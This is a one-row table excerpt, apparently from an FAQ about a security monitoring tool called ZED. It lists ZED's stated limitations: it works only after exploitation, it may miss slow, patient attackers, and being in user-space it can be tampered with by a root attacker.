| **What are ZED's main limitations?** | "ZED operates post-exploitation rather than preventing vulnerabilities; highly patient 'low-and-slow' attackers could blend into baseline data; and running in user-space means a root attacker could tamper with it, unlike kernel-level commercial agents." |
